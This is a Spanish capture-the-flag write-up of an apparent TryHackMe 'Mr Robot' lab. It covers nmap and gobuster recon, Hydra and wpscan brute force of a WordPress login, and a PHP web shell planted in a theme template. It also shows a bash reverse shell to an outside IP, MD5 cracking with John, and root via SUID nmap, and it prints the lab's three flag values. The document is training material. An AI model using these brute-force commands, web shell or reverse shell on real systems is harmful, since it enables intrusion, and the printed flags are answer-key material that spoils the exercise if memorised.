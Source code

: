# Summary
- IP: 10.10.134.125
- Ports: 80,443
- OS: Linux (Ubuntu)
- Services & Applications:
	-  80 -> Apache httpd
	-  443 -> Apache httpd

# Recon

- Escaneo de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.134.125 -oG allPorts
```

- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p80,443 -sCV 10.10.134.125 -oN targeted
```

- Examinamos la página web con gobuster:

```
$gobuster dir -u http://10.10.134.125/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```


- Analizamos el archivo "robots.txt" y encontramos directorios, examinamos los mismos y encontramos la primera flag:
# 1ra FLAG: 073403c8a58a1f80d943455fb30724b9

- Analizamos el directorio "wp-login.php" y nos encontramos con una página de login de wordpress, interceptamos con burpsuite la petición al intentar logear y encontramos los parámetros log y pwd, los cuales usaremos con hydra para aplicar fuerza bruta; 
- Primero encontraremos un usuario, esto usando el diccionado encontrado antes en el archivo robots.txt
PoC:
```
hydra -L <user.file> -P <password.file> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”```
```


```
$hydra -L fsocity.dic -p test 10.10.134.125 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.125%2Fwp-admin%2F&testcookie=1:invalid username" -t 30
```

- Encontramos el usuario Elliot, ahora intentamos encontrar la contraseña:

```
$hydra -l Elliot -P file.txt 10.10.134.125 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.125%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -t 30
```


O usando wpscan:

```
$wpscan --url http://10.10.134.125/wp-login.php -U Elliot -P /home/dante/Tryhackme/MrRobotCTF/content/fsocity.dic
```


- Accdemos al panel de Wordpress, buscamos el editor de temas, escogemos una plantilla, buscamos el recurso 404 template y lo editamos incrustándole una reverse shell en PHP:


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Guardamos el recurso y accedemos a él poniéndonos en escucha en el puerto 443:

http://10.10.134.125/wp-content/themes/twentythirteen/404.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443  0>%261"

- Hacemos tratamiento de la tty y buscamos la segunda flag.
- Como la tty no se encuentra ejecutada como bash lo hacemos con el siguiente comando:

python -c 'import pty;pty.spawn("/bin/bash")'

- No tenemos permisos paras abrir la flag, pero tenemos un archivo password md5 el cual tendremos que crackear con John:

```
$sudo john --format=Raw-MD5 -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt password.txt
```


- Encontramos la segunda flag:
# 2da FLAG: 822c73956184f694993bede3eb39f959



# Escalando privilegios:

- Buscamos binarios con permisos SUID:

```
robot@linux:/usr/local/bin$ find / -perm -4000 2>/dev/null
```


- Notamos que podemos ejecutar nmap con permisos SUID, buscamos en GTFobins posibles maneras de acceder como root y vemos lo siguiente:

```
The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.


nmap --interactive
nmap> !sh
```


- Buscamos la root flag:
# ROOT FLAG 3ra: 04787ddef27c3dee1ee161b21670b4e4
